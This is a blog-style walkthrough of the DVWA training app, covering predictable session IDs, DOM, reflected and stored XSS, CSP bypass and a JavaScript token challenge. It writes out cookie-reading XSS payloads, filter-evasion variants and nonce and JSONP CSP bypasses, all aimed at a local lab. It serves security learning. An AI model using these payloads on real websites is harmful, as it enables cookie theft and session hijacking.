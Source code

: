 ```yaml
---
layout: post
title: DVWA - Part 3
categories: [Vulnerable Web Applications]
tags: [DVWA, OWASP ZAP, weak session ids, XSS, CSP, JavaScript]

---
```

## Weak session IDs

We can predict some session IDs to steal information or carry out some malicious operations.

LOW - MEDIUM - HIGH:

LOW: We see that the dvwaSession cookie increases one unit each time we send a request. *$_SESSION['last_session_id']++;* . It has no difficulty in getting IDs.

MEDIUM: In this case the dvwaSession does not start with 1, but we can see that it takes as value the timestamp *$cookie_value = time();* , therefore it is also easy to guess.

HIGH: *$cookie_value = md5($_SESSION['last_session_id_high']); $_SESSION['last_session_id_high']++;*
The first dvwaSession is the hash c4ca4238a0b923820dcc509a6f75849b and [cracking](https://crackstation.net/) it, we can see that the answer is 1. If we send other request, the second value is 2. The next is 3...

## XSS (DOM)

We can send malicious code to get any cookies or session tokens held by the browser. 

LOW - MEDIUM - HIGH:

LOW: The URL is 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English and we can modify it. For example:
  - 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=random
  - 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<.script.>alert(“hello”)<./script.>
  - 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<.script.>alert(document.cookie)<./script.>

MEDIUM: The medium level do not allow: “<.script.>”, so we can use:
https://127.0.0.1/DVWA/vulnerabilities/xss_d/?default=English<./select.><.img src=x onerror=alert(document.cookie).>

HIGH: 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English#<.script.>alert(document.cookie)<./script.>
Then, selecting other language we can see a pop-up displaying the cookie info.

## XSS Reflected

It allows the manipulation of the functions of a web application and the activation of malicious scripts. Here we can use a javascript function to exploit this. 

- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.h1>hello<.h1>
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.font color=”blue”>hello<./font>

LOW - MEDIUM - HIGH:

LOW: https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.script>alert(document.cookie)<./script>

MEDIUM: The script replace "<.script" with blank space. So we can change one or more letters of the word "script" to uppercase.
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.Script>alert(document.cookie)<./Script>
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.scRipt>alert(document.cookie)<./scRipt>
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.SCriPt>alert(document.cookie)<./SCriPt>

HIGH: We can't use <.script>.
- <.img src=nosource onerror=alert(document.cookie)>
- <.svg/onload=alert(document.cookie)>
- <.body onload=alert(document.cookie)>

## XSS Stored

When we send data, it is stored by the server, and then it will be displayed permanently. 

LOW - MEDIUM - HIGH:

LOW: Use <.script>. <.script>alert(document.cookie)<./script>

MEDIUM: Looking at the code, we see this: $message=htmlspecialchars($message); 

htmlspecialchars(): Convert special characters into HTML entities. For example:
- < less than: converted to ‘&.lt;’
- .> more than: converted to ‘&.gt;’

That's why we can't use the Message field. The only option is to put our script in the Name field, but we have two drawbacks:
- Max lenght of 10 characters.
- Replace script with a blank space.

We use <.script>alert(document.cookie)<./script> with one or more letters of "script" in capital letters: <Script>alert(document.cookie)<./Script>

We can modify the max lenght with the inspect tool.

![]({{ site.baseurl }}/images/DVWA-7.JPG)

Or sending a post request like this:

![]({{ site.baseurl }}/images/DVWA-8.JPG)

HIGH: We use the Name field, but in this case we can't use 'script' in any of its variants.
- <.img src=nosource onerror=alert(document.cookie)>
- <.svg/onload=alert(document.cookie)>
- <.body onload=alert(document.cookie)>


## CSP Bypass 

CSP is a built-in browser technology which helps protect from attacks such as cross-site scripting (XSS). It lists and describes paths and sources, from which the browser can safely load resources.

LOW - MEDIUM - HIGH:

LOW: Looking at the script, we see that it allows scripts (or in Response headers-> Content-Security-Policy) from:
- https://pastebin.com
- example.com
- code.jquery.com
- https://ssl.google-analytics.com 

We also see a commented url in the script that we can use: https://pastebin.com/raw/R570EE00. We can insert that url or create our own in Raw format (https:/pastebin.com/raw/...), for example: alert("hey");

MEDIUM: We see the nonce attribute, it enables you to “whitelist” certain inline script. 
- <.script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(document.cookie);<./script> 
- <.script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">console.log(document.cookie);<./script> 

HIGH: The URL is http://127.0.0.1/DVWA/vulnerabilities/csp/source/jsonp.php?callback=solveSum and we can modify it like this:
- http://127.0.0.1/DVWA/vulnerabilities/csp/source/jsonp.php?callback=alert(“hello”);


## JavaScript

We need to guess the correct token for "success".

LOW - MEDIUM:

LOW: When you enter "success", the token becomes invalid, and the same token appears every time. Looking at the sorce code we see: generate_token(); and if we enter it in console, we can get a valid token. Another option is to get the hash of "success"using this [tool](https://www.md5hashgenerator.com/).

MEDIUM: In the script <.script src="/vulnerabilities/javascript/source/medium.js">, we can see this: 
```
setTimeout (function () {
  do_elsesomething ('XX');
}, 300);
function do_elsesomething (e) {
  document.getElementById ('token').value = do_something (
    e + document.getElementById ('phrase').value + 'XX'
  );
}
```
The token is always the same: XXeMegnahCXX → XX+Reverse_ChangeMe+XX
So we try this token: XxsseccusXX.

